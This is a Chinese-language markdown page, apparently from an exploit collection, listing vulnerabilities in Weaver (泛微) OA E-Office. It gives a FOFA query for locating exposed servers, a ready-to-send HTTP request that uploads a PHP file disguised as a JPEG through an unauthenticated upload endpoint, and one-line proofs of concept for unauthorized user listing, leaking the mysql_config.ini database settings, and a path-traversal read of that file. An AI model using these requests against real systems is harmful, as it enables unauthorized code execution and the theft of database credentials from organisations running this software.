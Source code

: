 # 泛微OA E-Office 漏洞
## 资产收集
fofa:`app="泛微-EOffice"`
## 任意文件上传
### POC
```h
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```
![](./img/E-Office-UploadFile.png)
`/images/logo/logo-eoffice.php`
![](./img/phpinfo.png)
## UserSelect 未授权访问
### POC
`/UserSelect/`
## mysql_config.ini 数据库信息泄漏
### POC
`/mysql_config.ini`
## 任意文件读取漏洞
### POC
`/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini`